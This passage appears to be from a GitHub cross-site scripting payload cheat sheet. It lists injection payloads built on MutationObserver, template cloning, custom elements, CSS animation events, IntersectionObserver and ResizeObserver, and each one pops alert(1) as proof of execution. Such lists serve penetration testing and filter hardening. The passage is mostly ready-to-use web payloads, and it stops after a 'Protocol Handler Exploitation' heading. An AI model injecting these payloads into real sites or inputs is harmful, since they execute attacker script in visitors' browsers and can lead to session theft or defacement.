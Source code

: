### Advanced DOM Manipulation

Complex DOM manipulation techniques:

```js
# MutationObserver Abuse
<script>
new MutationObserver(function(m){
    alert(1);
    o.disconnect();
}).observe(document.body,{subtree:true,childList:true})
</script>

# Template Element Injection
<template><img src=x onerror=alert(1)></template>
<script>document.body.appendChild(document.querySelector('template').content.cloneNode(true))</script>

# Custom Elements Abuse
<script>
customElements.define('xss-test', class extends HTMLElement {
  connectedCallback() { alert(1) }
});
</script>
<xss-test></xss-test>
```

### Event Handler Innovation

Novel event handler techniques:

```js
# ConstructionEvent Abuse
<style>@keyframes x{from {left:0;}to {left: 1000px;}}:target {animation:x;}</style>
<xss id=x style="position:fixed;" onanimationcancel="alert(1)"></xss>

# Intersection Observer
<script>
new IntersectionObserver(([e]) => {
  if (e.isIntersecting) alert(1)
}).observe(document.body)
</script>

# ResizeObserver Exploit
<script>
new ResizeObserver(() => alert(1)).observe(document.body)
</script>
```

### Protocol Handler Exploitation

Abusing various protocol handlers:
